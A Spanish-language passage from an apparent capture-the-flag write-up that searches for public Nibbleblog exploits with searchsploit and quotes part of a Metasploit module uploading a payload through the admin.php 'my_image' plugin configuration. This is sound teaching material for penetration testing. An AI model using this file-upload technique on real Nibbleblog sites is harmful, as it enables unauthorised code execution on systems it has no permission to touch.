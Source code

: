 A este punto, podríamos tratar de buscar exploits públicos asociados a **nibbleblog**:

```bash
❯ searchsploit nibbleblog
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                         | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                          | php/remote/38489.rb
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Tenemos uno que nos puede llamar la atención **Arbitrary File Upload (Metasploit)** y como en este sitio no ocupamos metasploit, vamos a leerlo a ver de que forma realiza la explotación.

```rb
---
vprint_status("#{peer} - Uploading payload...")
    res = send_request_cgi(
      'method'        => 'POST',
      'uri'           => normalize_uri(target_uri, 'admin.php'),
      'vars_get'      => {
        'controller'  => 'plugins',
        'action'      => 'config',
        'plugin'      => 'my_image'
      },
      'ctype'         => "multipart/form-data; boundary=#{data.bound}",
      'data'          => post_data,
      'cookie'        => cookie
    )
---
```

En esta parte nos indica algunos campos como **plugins**, **config** y **my_image** y si checamos vía web, vemos que podría tratarse de una ruta.
